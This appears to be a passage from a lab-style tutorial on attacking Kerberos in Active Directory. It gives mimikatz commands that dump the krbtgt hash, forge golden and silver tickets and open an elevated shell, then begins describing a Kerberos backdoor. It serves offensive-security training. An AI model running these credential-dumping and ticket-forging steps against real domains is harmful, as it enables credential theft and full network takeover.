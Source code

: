 ![https://i.imgur.com/GT1kkfo.png](https://i.imgur.com/GT1kkfo.png)

# Dump the krbtgt hash -

1.) `cd downloads && mimikatz.exe` - navigate to the directory mimikatz is in and run mimikatz

2.) `privilege::debug` - ensure this outputs [privilege '20' ok]

3.) `lsadump::lsa /inject /name:krbtgt` -
 This will dump the hash as well as the security identifier needed to 
create a Golden Ticket. To create a silver ticket you need to change the
 /name: to dump the hash of either a domain admin account or a service 
account such as the SQLService account.

![https://i.imgur.com/VOEsU4O.png](https://i.imgur.com/VOEsU4O.png)

# Create a Golden/Silver Ticket -

1.) `Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:` - This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

I'll show you a demo of creating a golden ticket it is up to you to create a silver ticket.

![https://i.imgur.com/rh06qDl.png](https://i.imgur.com/rh06qDl.png)

# Use the Golden/Silver Ticket to access other machines -

1.) `misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.

![https://i.imgur.com/6HnEnwi.png](https://i.imgur.com/6HnEnwi.png)

2.)
 Access machines that you want, what you can access will depend on the 
privileges of the user that you decided to take the ticket from however 
if you took the ticket from krbtgt you have access to the ENTIRE network
 hence the name golden ticket; however, silver tickets only have access 
to those that the user has access to if it is a domain admin it can 
almost access the entire network however it is slightly less elevated 
from a golden ticket.

![https://i.imgur.com/BSh4rXy.png](https://i.imgur.com/BSh4rXy.png)

This
 attack will not work without other machines on the domain however I 
challenge you to configure this on your own network and try out these 
attacks.

**Kerberos Backdoors w/ mimikatz**

Along
 with maintaining access using golden and silver tickets mimikatz has 
one other trick up its sleeves when it comes to attacking Kerberos.
 Unlike the golden and silver ticket attacks a Kerberos backdoor is much
 more subtle because it acts similar to a rootkit by implanting itself 
into the memory of the domain forest allowing itself access to any of 
the machines with a master password.

